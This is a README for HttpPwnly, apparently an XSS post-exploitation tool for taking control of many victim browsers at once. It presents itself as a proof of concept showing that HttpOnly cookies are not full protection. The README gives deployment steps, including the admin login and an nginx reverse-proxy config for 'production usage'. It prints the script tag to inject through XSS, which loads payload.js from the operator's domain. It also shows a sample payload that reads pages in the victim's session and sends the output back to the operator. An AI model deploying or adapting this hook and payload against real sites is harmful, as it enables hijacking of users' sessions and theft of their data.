 Original work by: Danladi https://github.com/Danladi/HttpPwnly

# HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install -r requirements.txt

## Usage:
to run the tool, simply use:
```
python httppwnly.py
```
For production usage, you should run and configure a reverse proxy which offers both HTTP on port 80 and HTTPS on port 443 with a properly signed SSL certificate. This is free and fairly straightforward with Lets Encrypt providing you own a domain. See "Reverse proxy" below for further info and a copy-paste nginx config.

When you run httppwnly, a randomly generated password for the user "admin" will be displayed in the terminal. At this point, visit https://[yourdomain]/login in your browser. After logging in, you will have access to the /dashboard.

In order to hook a victim, you should write the following script tag to a page via XSS:
```
<script id="hacker" src="//[yourdomain]/payload.js"></script>
```

## Demo:
[![Demo Video](http://img.youtube.com/vi/spfrmsbhBaw/0.jpg)](https://www.youtube.com/watch?v=spfrmsbhBaw "HttpPwnly Update Demo")


## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```javascript
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      sendOutput(id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```

## Reverse proxy:
HttpPwnly will bind to localhost:5000. In order to make the framework accessible remotely, the best approach is to use a reverse proxy. It's also recommended to offer HTTP as well as HTTPS, another reason to use a reverse proxy! I personally recommend using nginx for this. This is a working nginx config file:
```
server {
    listen 80;
    server_name example.com;

    location / {
        proxy_pass http://127.0.0.1:5000;
        proxy_http_version 1.1;
        proxy_buffering off;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "Upgrade";

    }
}
server {
    listen 443 ssl;
    server_name example.com;
    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem;
    location / {
        proxy_pass http://127.0.0.1:5000;
        proxy_http_version 1.1;
        proxy_buffering off;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "Upgrade";

    }
}
```
